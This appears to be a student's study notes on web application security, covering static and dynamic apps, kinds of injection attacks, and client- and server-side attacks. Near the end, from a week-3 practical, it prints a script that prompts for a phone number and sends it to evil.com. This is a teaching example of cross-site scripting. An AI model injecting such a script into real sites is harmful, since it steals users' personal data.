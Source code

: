 Types of web apps:
- static - any web app that can go directly to user browser without server-side alteration of HTTP response
- dynamic - generates pages / data in real-time per request, response triggers from server end and reach client end
![[Pasted image 20230804114121.png]]

Types of injection attacks:
- [[SQL injection]]
- [[Command injection]]
- LDAP injection
- CRLF injection
- Template injection
- XPath injection

Types of security attacks:
- Client-side - user downloads malicious code from server which is interpreted by client browser
- Server-side - data and apps in a server are compromised

- [[Cross-site scripting attack (XSS)]]
- [[Cross-site request forgery (XSRF)]]

Notes from week 3 practical:
```html
<script>
	let mobile = prompt("Please enter your phone number to proceed", "");
	window.location = 'http://evil.com/>?info=' + mobile;
</script>
```

This script is feeding the mobile info to the website.